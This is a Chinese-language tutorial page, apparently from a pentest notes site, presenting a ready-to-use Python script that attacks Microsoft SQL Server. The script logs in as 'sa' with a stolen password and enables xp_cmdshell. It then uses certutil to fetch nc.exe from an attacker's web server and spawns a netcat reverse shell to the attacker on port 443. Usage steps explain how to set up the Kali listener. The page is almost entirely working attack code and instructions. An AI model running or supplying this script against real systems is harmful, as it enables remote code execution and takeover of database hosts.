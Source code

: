 ```yaml
---
description: Python / Microsoft SQL Server / xp_cmdshell
---
```


# ✔️ 编写 SQL Server 漏洞利用程序进行 RCE

## 脚本

* 连接到远程MSSQL数据库并启用`xp_cmdshell`，然后通过上传和执行Netcat二进制文件在目标系统上创建一个反向Shell：

<pre class="language-python"><code class="lang-python">import pexpect
import time

def enable_cmdshell():
    child.sendline("sp_configure 'show advanced options', '1'")
    print("Enabling xp_cmdshell")
    child.expect(confirmation)
    child.sendline("RECONFIGURE")
    child.sendline("sp_configure 'xp_cmdshell','1'")
    child.expect(confirmation)
    child.sendline("RECONFIGURE")
    spawn_shell()
<strong>
</strong>def spawn_shell():
    print("Upload netcat binary...")
# 按实际情况修改为攻方IP地址
    child.sendline("EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.169.xx.xxx/nc.exe C:/users/public/nc.exe'")   
    print("Spawning shell...")
 # 按实际情况修改为攻方IP地址
    child.sendline("EXEC master..xp_cmdshell 'C:/users/public/nc.exe 192.168.xx.xxx 443 -e cmd.exe'")    
    time.sleep(5)
    print("Closing...")
    child.close()
<strong>
</strong>def connect():
    print("Connecting to remote MSSQL DB...")
    child.expect(pass_prompt)
# 要修改，发送密码
    child.sendline('已获取到的密码')        
    print("Logging in...")
    child.expect(sql_prompt)
    print("Success!")


if __name__ == '__main__':
    sql_prompt = "SQL>"
    confirmation = "to install\."
    pass_prompt = "Password:"
# 按实际目标系统的IP地址修改
    command = "impacket-mssqlclient sa@192.168.xx.xxx"   
    child = pexpect.spawn(command)
    connect()
    enable_cmdshell()
    spawn_shell()

</code></pre>

## 用法

1. Kali主机上监听443端口
2. kali主机上找到存储nc.exe的目录，并在此目录下开启Python服务器
3. kali主机上直接运行该脚本，执行成功会在监听443端口的窗口出现反弹shell

{% hint style="info" %}
* 该脚本所有操作均在攻方的Kali主机上完成，但是利用该脚本的先决条件是已拥有了目标系统中内置账户sa的密码。
* 空服务账户没有对C:\Windows\system32目录的写入权限，但是对C:/users/public有写入权限。
{% endhint %}

